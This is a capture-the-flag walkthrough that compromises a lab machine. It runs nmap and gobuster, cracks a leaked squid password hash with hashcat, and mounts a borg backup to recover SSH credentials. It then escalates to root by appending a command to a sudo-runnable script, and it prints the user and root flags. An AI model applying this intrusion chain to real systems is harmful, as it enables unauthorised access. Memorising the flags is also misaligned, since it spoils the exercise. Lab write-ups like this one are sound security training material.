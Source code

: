 # Task 2 Compromise the System

Compromise the machine and read the user.txt and root.txt

### Scan the machine, how many ports are open?

`sudo nmap -sS -Pn -p- -T4 -vv 10.10.53.223`

```
Discovered open port 22/tcp on 10.10.53.223
Discovered open port 80/tcp on 10.10.53.223
```


Answer: `2`

### What service is running on port 22?

`sudo nmap -sS -Pn -p 22,80 -sC -sV  -T4 -vv 10.10.53.223`

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Answer: `ssh`

### What service is running on port 80?

Answer: `http`

### What is the user.txt flag?

Navigate to the website in a browser, apache default page.
No robots.txt

`gobuster dir --url 10.10.53.223 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

We see an `/admin/` site
Navigate to that in a browser
There is an Admins tab, and we can download some Archves.

On the Admins tab, we see some details
```
############################################
############################################
[Yesterday at 4.32pm from Josh]
Are we all going to watch the football game at the weekend??
############################################
############################################
[Yesterday at 4.33pm from Adam]
Yeah Yeah mate absolutely hope they win!
############################################
############################################
[Yesterday at 4.35pm from Josh]
See you there then mate!
############################################
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
############################################
```

Potentially some usernames, Josh, Adam, Alex

The archive contains what looks to be a [borg backup](https://borgbackup.readthedocs.io/)

Additionally there is a `/etc/` site with a squid config and passwd file

Looking at the passwd file, and hashcat examples we can see it is `-m 1600`
`hashcat -a 0 -m 1600 hash.txt rockyou.txt`

The password is `squidward`

This does not let us into SSH unfortunately.

Looking at the archive, we can run
`borg list field/dev/final_archive` and it prompts for a passphrase
using `squidward` shows  a music_archive backup.

```shell
sudo mkdir /mnt/borg
sudo borg mount field/dev/final_archive /mnt/borg
```

Once in the /mnt/borg folder we see a home directory for alex
We have a rabbit hole on the Desktop, however in the Documents folder we see what might be a password `alex:S3cretP@s3`

Connect via SSH with the credentials

`cat user.txt`

Answer: `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`

### What is the root.txt flag?

`sudo -l`
```
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

```
lex@ubuntu:/etc/mp3backups$ ls -la
total 24
drwxr-xr-x   2 root root  4096 Dec 30  2020 .
drwxr-xr-x 133 root root 12288 Dec 31  2020 ..
-rw-r--r--   1 root root     0 Oct 25 01:34 backed_up_files.txt
-r-xr-xr--   1 alex alex  1083 Dec 30  2020 backup.sh
-rw-r--r--   1 root root    45 Dec 31  2020 ubuntu-scheduled.tgz
```

We can see the file we have sudo permission to run, we are also the owner of.  So we can edit this file to grab the root flat

```shell
chmod +w backup.sh
echo "cat /root/root.txt" >> backup.sh
sudo ./backup.sh
```

Answer: `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`